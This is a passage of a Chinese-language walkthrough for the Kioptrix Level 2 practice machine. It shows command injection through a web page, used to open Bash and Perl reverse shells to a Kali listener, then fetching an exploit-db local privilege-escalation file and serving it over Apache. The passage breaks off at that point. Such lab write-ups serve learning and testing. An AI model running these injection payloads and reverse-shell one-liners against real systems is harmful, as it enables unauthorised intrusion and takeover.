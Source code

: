 这里可以直接通过命令反弹shell  

参考文档链接：  
反弹shell备忘录  
http://www.legendsec.org/1965.html  

### Bash ###  

Kali监听8888端口 `netcat -lvp 8888`  

http://192.168.142.131/index.php网站执行命令 `127.0.0.1;bash -i >& /dev/tcp/192.168.142.129/8888 0>&1`  

![file](http://ozpdcy1zs.bkt.clouddn.com/dc796e2785fab7168063dd367baed9ad.png-quanzi)  

成功反弹shell。  

![file](http://ozpdcy1zs.bkt.clouddn.com/002e678f20e2fccf3307bbee6edf2aed.png-quanzi)  

### PERL ###  

Kali监听4444端口 `netcat -lvp 4444`  

http://192.168.142.131/index.php网站执行命令  

```
127.0.0.1;perl -e 'use Socket;$i="192.168.142.129";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

![file](http://ozpdcy1zs.bkt.clouddn.com/5a71fce31bd0e1e9ef906198d6e3a2c2.png-quanzi)  

成功反弹shell。  

![file](http://ozpdcy1zs.bkt.clouddn.com/d2088f6332bc7d8e48b8c3ad818c237d.png-quanzi)  

## 提权操作 ##  

反弹shell权限很低，所以我们需要提权。系统版本为`Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
`  

我们使用提权文件`https://www.exploit-db.com/download/9542.c`  

![file](http://ozpdcy1zs.bkt.clouddn.com/cd2957649c7155482a680180f8c0ab1f.png-quanzi)  

把文件复制到Apache的根目录 `cp 9542.c /var/www/html/escpriv.c`  

开启Apache服务 `service apache2 start`  

查看Kali虚拟机80端口开放情况  

http://192.168.142.129/  

![file](http://ozpdcy1zs.bkt.clouddn.com/5e8e639e051f3927344cf64626cf7e63.png-quanzi)  
